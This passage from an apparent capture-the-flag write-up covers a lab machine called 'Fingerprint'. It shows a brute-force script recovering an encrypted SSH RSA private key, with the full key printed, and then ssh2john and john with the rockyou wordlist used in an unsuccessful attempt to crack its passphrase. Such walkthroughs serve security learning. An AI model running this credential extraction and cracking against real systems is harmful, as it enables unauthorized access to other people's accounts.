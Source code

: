 I’ll add `:` and `,` to my alphabet and rerun:

```

www-data@fingerprint:/tmp$ python3 brute_ssh.py                   
-----BEGIN RSA PRIVATE KEY-----                                  
Proc-Type: 4,ENCRYPTED                                             
DEK-Info: AES-128-CBC,C310F9D86AE7CB5EA10046F9A215F423           
                                                                    
ysiTr753RYpx1qkFJRvge/Dtu7rMEocAuCchOzAUgw9MqyPuI5M9m6KTvdB2E+SC
KI8IlmSbAAu0obdwTOuKD0QDGCMlXadI91WKkhALiLuw0JsxuviTqkjy/xQOJYu+
T4VCRI8vZoc5lfGRXnVsOJmrfTWc8f43YSD+j8dOFvdkHi0ud7xSQfqKyhDVsRyO
6qM2v5RnBJBktl7vwftG5vyk5vZjmx2u5BXTksuBrMUF2iZVtsoQ59L70CtIXP0M
g5HV4QZWRhSlS++i8W0GnWzCGANwiS18Z6CR4noSw80huaCIqWfwnoTXGJx91IDM
S79dBUPaK109+DKXZfT600JriZ8S9yvox3QuQ9KwsqTP/Iz8NqQI/J5KLoivM+t4
DHjReKktYJQ+jLB1hA3CQDYs/kVUHdG2ThluFESVrnhJDvkyvKLxNlixighsb2+c
3JHnD8OvXOxrj2jl0k/DgbsfNxf3sHAl8snIiBwgEmb8Ep6CJOIQbuaPzqa2/Lxt
FWZlHwYGnieVxX67nNdcU+3xdfXbJX8UpYuGkKGwSiZRDHb3sMN5CtfHhU0fNybG
5xHn1YTwMZwHf8dKijdevMG2a8D79oaPff0XNflP+M2oz6e8RPOmkI0Wkv9EIq9X
IbLprBGDM8VQDHtO76u+l4DQZbMFCjCSjm+/xVtPmkCB7YhOyMOd5GqymGhxlbaS
OYJUBjA0TxHLtJ5+5rptyaIwnJ82CA0jjRI3hoGfk2PAkX9LJuonnRm3/Is2u02R
GoYnpegyKTp5ETL1Ut5BdEle1HrCTY5EjzI+e7bwXIEVhvgwS8e6W3ZUq72CC+gb
PkSbQSQXQDQ3/qEN0XkpFIa7gyB/GTKtlEwUSv/GxyB7lxu314/Nox7Bz32sxxsc
EwZURAAynFhVP+Bd7eB/ws/Ii2N9ENKk8ut8+9fKFw4/1pJDdwuof8MgdPImmEXZ
MPrQyMbt/7g1oAskxy3XgeuuRY76HN/p2tElyBDZ4K+XWikKAnQPNkaohfjqsTJX
VqPsWG2f8XxMnN6gRvWQ7eibbARdFU7c0KR3ANWgQ06ysCYp+R8F4ns4+nZzp2x1
DJpbS55UpW9r3cjcHHjfAoEmtI80waMKMpnTmwWyPqFGQiCVJvQkQBWKpmT/W8hU
dexiRjth+FOMmrUcFe1sSElNFHDcKj2TKxdPW97c/afLn3E/dUFDzalntY7K4A5M
O0F1a7M71yqaTsTEBglt1ZfVJUdogpz5rp2i77H5/gHV1/gIEwLwLkUchsFpS2kC
/ttPebUPv5Xxd/qMF4c8+Qaynn9+MAnbDPz7peYH2un2n103qI4PudCjdpGW23sb
UOtc0lgU4S2pA8rWT3j69nesVzR6Yni5zzj2gUL6o12+jdLoGYH6x6unlSf+EnEc
U1jQBBJReZQ82j+e1FhxvD6WclxpNrtZxZdSyYaaLOMyI618tvvn5X63AWoNAZoT
sq0H1EhWic++FzpFC1QjvmWlFIA8+KUt2BL0fz7RTQTfR0EGyZnZv9Dqe6QCneIE
U3tpTZByfgx+MI2LIM8GXjvhUOiM6DieB2OFWsR8JRyred2qFJOjz7fX5TUl9dQv
-----END RSA PRIVATE KEY-----

```

### Crack Key

#### john Fail

As far as I know, `hashcat` doesn’t crack private RSA keys. But `john` does. I’ll use `ssh2john` to create the hash:

```

oxdf@hacky$ ssh2john.py john_enc > id_rsa.hash 

```

Unfortunately, it doesn’t crack with `rockyou.txt`:

```

oxdf@hacky$ john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:03 DONE (2021-11-04 17:02) 0g/s 4717Kp/s 4717Kc/s 4717KC/s *7¡Vamos!
Session completed. 

```
